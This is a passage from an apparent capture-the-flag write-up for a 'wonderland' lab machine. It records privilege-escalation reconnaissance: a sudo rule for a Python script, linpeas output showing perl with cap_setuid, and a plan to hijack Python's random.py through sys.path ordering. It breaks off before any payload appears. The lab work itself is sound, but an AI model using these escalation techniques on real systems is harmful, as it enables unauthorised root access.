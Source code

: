 User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

We can only read the file, i need to find a way to write to the file to exploit it.

alice@wonderland:~$ ls -l /usr/bin/python3
lrwxrwxrwx 1 root root 9 Oct 25  2018 /usr/bin/python3 -> python3.6

maybe we need to hijack python libraries


### Linpeas output

* Sudo version 1.8.21p2                         

* Files with capabilities

```
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
```
alice@wonderland:/$ ls -l /usr/bin/perl5.26.1 
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 usr/bin/perl5.26.1
alice@wonderland:/$ ls -l /usr/bin/perl
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 usr/bin/perl
alice@wonderland:/$ 
```

perl can probably be used to get root, but i need to move laterally to someone else before i do that


## Python Libraries

https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8

The walrus_and_the_carpenter.py pythons script uses the random.py library, we can maybe change this library. The pythons sys.path can be seen bellow.

```python3 -c 'import sys; print(sys.path)'```

```
alice@wonderland:~$ python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python36.zip', '/usr/lib/python3.6', '/usr/lib/python3.6/lib-dynload', '/usr/local/lib/python3.6/dist-packages', '/usr/lib/python3/dist-packages']
```

This means that python3 path will look for the library at the path i am before going to it's normal library paths. This means we can highjack this library and run our file instead

### Testing injection 

```
alice@wonderland:~$ cat random.py 
def choice(string: str):
